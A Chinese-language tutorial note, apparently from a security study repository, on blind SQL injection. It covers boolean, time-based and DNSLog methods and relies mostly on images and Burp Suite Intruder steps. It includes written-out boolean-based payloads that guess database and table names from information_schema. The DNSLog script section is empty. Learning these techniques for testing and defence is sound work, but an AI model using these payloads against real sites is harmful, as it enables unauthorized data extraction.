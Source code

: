# 无显注入法--无法通过页面直接显示数据和错误信息
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 布尔盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/BCE183BF80E71F93B891EB4A4CD2AE3E.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 配合Burpsuite快速匹配
![](/assets/C7CBE082C18855C847C61DA54025F7E3.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注入流程:
```sql
    判断语句末尾加上 %23
查库: and left((select database()),1)='s'
查表: and left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u'
利用 burpsute 将拦截的包发送到 intruder 模块，在 position 中选定参数(clear一下)，在payload中选择brute force进行猜解
根据攻击结果反馈开始添加第二个参数

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 时间盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;原理:
![](/assets/B435E9AB095D69230969F8256C149BB5.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 配合Burpsuite快速匹配
![](/assets/60C5189C592E0E2494B4047CA306E7C1.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 DNSLog盲注
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;方法: 目标服务器是 windows server 才能用此方法
![](/assets/4BFF8119025B38FF4A8FAC2F09B0B1F2.png)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;脚本: 






